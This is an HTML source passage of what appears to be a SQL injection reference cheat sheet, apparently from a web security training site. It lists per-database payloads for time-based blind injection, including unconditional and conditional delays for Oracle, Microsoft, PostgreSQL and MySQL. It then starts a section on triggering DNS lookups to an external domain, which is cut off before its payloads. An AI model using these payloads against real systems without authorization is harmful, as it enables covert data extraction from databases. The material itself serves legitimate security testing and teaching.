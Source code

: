                 </th>
                <td><code>
                    SELECT pg_sleep(10)
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    SELECT SLEEP(10)
                </code></td>
            </tr>
        </table>
        <h2 id="conditional-time-delays">Conditional time delays</h2>
        <p>
            You can test a single boolean condition and trigger a time delay if the condition is true.
        </p>
        <table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
                </code></td>
            </tr>
        </table>
        <h2 id="dns-lookup">DNS lookup</h2>
        <p>
            You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator-client">Burp Collaborator client</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
        </p>
        <table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
